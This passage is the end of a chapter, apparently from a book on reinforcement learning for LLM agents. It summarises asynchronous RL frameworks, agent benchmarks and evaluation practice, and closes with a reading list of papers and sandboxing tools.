6. **Synchronous vs. Asynchronous**—synchronous methods are simple but have low GPU utilization; asynchronous methods (AReaL/AgentRL/SLIME/ROLL/LlamaRL) can achieve 2.77× speedup, at the cost of off-policy bias.
7. **Benchmark Ecosystem**—benchmarks such as SWE-bench, τ-bench, WebArena, Vending-Bench, and CyberGym cover different capability dimensions, and their combined use avoids overfitting.
8. **Training-Evaluation Loop**—Eval-driven training, incremental evaluation, pollution detection, and Pareto checkpoint selection are standard in industrial-scale RL engineering.

You can next read [Chapter 23: VLM RL](../chapter26_vlm/vlm-challenges) to learn about how reward signals are designed and training is extended when observations shift from text to images or videos.

## Further Reading

- Pash 2025, "Evals = RL Environments" (Blog is now offline)
- [Anthropic 2025.11 "Effective Harnesses"](https://www.anthropic.com/engineering/effective-harnesses-for-long-running-agents)
- [Mechanize: RL Environments for All Digital Work](https://mechanize.dev/)
- [AReaL: Asynchronous RL for LLMs (arXiv:2505.24298)](https://arxiv.org/abs/2505.24298)
- [AgentRL: Multi-turn Multi-task Agentic RL Framework (arXiv:2510.04206)](https://arxiv.org/abs/2510.04206)
- [CyberGym: CTF Training Environment (arXiv:2506.02548)](https://arxiv.org/abs/2506.02548)
- [Vending-Bench: Long-range Benchmark (arXiv:2502.15840)](https://arxiv.org/abs/2502.15840)
- [τ-bench: Salesforce Agent Benchmark (arXiv:2406.12045)](https://arxiv.org/abs/2406.12045)
- [SWE-Gym: SWE-bench Training Version (arXiv:2412.21139)](https://arxiv.org/abs/2412.21139)
- [BFCL: Berkeley Function Calling Leaderboard (PMLR 2025)](https://proceedings.mlr.press/v267/patil25a.html)
- [WebArena (arXiv:2307.13854)](https://arxiv.org/abs/2307.13854)
- [BrowseComp (OpenAI 2025)](https://openai.com/index/browsecomp/)
- [Firecracker microVM](https://firecracker-microvm.github.io/)
- [gVisor Sandbox](https://gvisor.dev/)
